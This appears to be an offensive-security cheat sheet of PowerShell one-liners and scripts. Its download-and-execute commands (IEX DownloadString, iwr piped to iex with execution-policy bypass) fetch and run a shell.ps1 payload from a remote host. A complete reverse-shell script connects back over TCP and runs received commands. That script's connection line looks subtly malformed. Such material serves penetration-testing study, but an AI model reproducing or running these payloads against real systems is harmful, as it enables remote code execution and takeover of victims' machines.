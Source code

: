 ## Download file using powershell

```console
# Using WebClient.Downloadfile
D:\> powershell -command "(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.0.159:8002/shell.ps1\", \"shell.ps1\")"

# Invoke-WebRequuest
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1"

# Requiring authentication
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1" -Credential GetCredential 

# Execute generic CMD from powershell
D:\> powershell -command "whoami"'
```

## Script invocation
```console
# From CMD
D:\> PowerShell.exe -command "TestPS.ps1"


# From another powershell script
invoke-expression -Command .\TestPS.ps1
```

## Download and execute from server
```console
# Using WebClient.DownloadString and execute downloaded content
D:\> powershell "IEX (New-Object System.Net.WebClient).DownloadString(\"http://192.168.0.159:8002/shell.ps1\");"

# Pipe downloaded string to iex
D:\> powershell -exec bypass -c "iwr(\"http://192.168.0.159:8002/shell.ps1\")|iex"

```

## Powershell shell example
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.0.159:8001",8001);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + "# ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};
$client.Close()
```

## Util infos
- https://github.com/davehardy20/PowerShell-Scripts
- https://book.hacktricks.xyz/shells/shells/windows
- https://www.revshells.com/
